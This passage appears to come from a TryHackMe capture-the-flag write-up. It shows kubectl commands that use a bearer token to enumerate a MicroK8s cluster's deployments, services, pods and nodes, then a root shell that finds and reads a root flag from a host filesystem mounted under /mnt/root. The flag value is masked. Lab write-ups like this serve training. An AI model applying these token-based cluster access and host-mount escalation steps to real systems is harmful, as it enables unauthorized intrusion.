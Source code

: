 <p align="center">Enumerated <strong>frankland</strong>.</p>

```bash
:~/FrankandHerbyTryAgain#   ./kubectl --server https://xx.xxx.xx.xx:16443 --certificate-authority=ca.crt --token=$token get deployments -n frankland
NAME         READY   UP-TO-DATE   AVAILABLE   AGE
php-deploy   1/1     1            1           3y199d
```

<br>

```bash
:~/FrankandHerbyTryAgain#  ./kubectl --server https://xx.xxx.xx.xx:16443 --certificate-authority=ca.crt --token=$token get services -n frankland
NAME         TYPE       CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
php-deploy   NodePort   xx.xxx.xxx.xxx   <none>        80:30679/TCP   3y199d
```

<br>

```bash
:~/FrankandHerbyTryAgain#  ./kubectl --server https://xx.xxx.xx.xx:16443 --certificate-authority=ca.crt --token=$token get pods -n frankland
NAME                          READY   STATUS        RESTARTS      AGE
php-deploy-6d998f68b9-wlslz   1/1     Terminating   4 (91d ago)   3y199d
php-deploy-6d998f68b9-fvtcg   1/1     Running       0             132m
```

<br>

```bash
:~/FrankandHerbyTryAgain# ./kubectl --server https://xx.xxx.xx.xx:16443 --certificate-authority=ca.crt --token=$token get nodes
NAME              STATUS     ROLES    AGE      VERSION
microk8s          NotReady   <none>   3y200d   v1.23.17-2+40cc20cc310518
ip-xx-xxx-xx-xx   Ready      <none>   138m     v1.23.17-2+40cc20cc310518
```

<p><img width="1200px" src="https://github.com/user-attachments/assets/7218af65-dacd-48eb-8efb-fe23ba1db827"></p>

<br>
<br>
<br>

```bash
root@ip-xx-xxx-xx-xx:/#  find / type -name root.txt 2>/dev/null
find / type -name root.txt 2>/dev/null
/mnt/root/root.txt
```

```bash
root@ip-xx-xxx-xx-xx:/# cat /mnt/root/root.txt
cat /mnt/root/root.txt
THM{*****-***-*****-*****-****}
```

<br>
<p>1.2. <em><strong>Root</strong> flag?</em><br>
<strongTHM{*****-***-*****-*****-****}</strong></p>
<br>
<br>
<br>
